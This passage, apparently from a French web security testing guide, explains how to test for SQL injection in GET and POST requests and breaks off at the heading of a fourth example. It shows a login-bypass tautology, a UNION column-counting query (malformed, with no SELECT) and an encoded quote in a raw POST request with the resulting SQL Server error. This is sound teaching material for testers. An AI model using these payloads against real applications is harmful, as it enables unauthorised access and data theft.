 ### Exemple 1: tester une injection SQL via une requête GET.

Le cas le plus simple (et souvent le plus avantageux) est celui d'une
page de connexion demandant un identifiant d'utilisateur et un mot de
passe. On peut y entrer la chaîne suivante "' or '1'='1" (sans les
guillemets) :

`https://vulnerable.web.app/login.asp?Username='%20or%20'1'='1&Password='%20or%20'1'='1`

Si l'application utilise des requêtes SQL dynamiques, que la chaîne est
ajoutée à la requête de vérification des accès utilisateur, cela peut
résulter en une connexion réussie à l'application.

### Exemple 2: tester une injection SQL dans une requête GET

Pour connaître le nombre de colonnes existantes

`https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20users;--`

### Exemple 3: tester dans une requête POST

Injection SQL dans le contenu d'une requête POST :
email=%27\&whichSubmit=submit\&submit.x=0\&submit.y=0

Un exemple plus complet :

`POST https://vulnerable.web.app/forgotpass.asp HTTP/1.1`
`Host: vulnerable.web.app`
`User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.0.7) Gecko/20060909 Firefox/1.5.0.7 Paros/3.2.13`
`Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5`
`Accept-Language: en-us,en;q=0.5`
`Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7`
`Keep-Alive: 300`
`Proxy-Connection: keep-alive`
`Referer: http://vulnerable.web.app/forgotpass.asp`
`Content-Type: application/x-www-form-urlencoded`
`Content-Length: 50`
` email=%27&whichSubmit=submit&submit.x=0&submit.y=0`

Le message d'erreur suivant est obtenu quand on entre un ' (simple
quote) dans le champ email :

`Microsoft OLE DB Provider for SQL Server error '80040e14'`
`Unclosed quotation mark before the character string '' '.`
`/forgotpass.asp, line 15 `

### Exemple 4: Un autre exemple GET utile

Récupérer le code source de l'application :
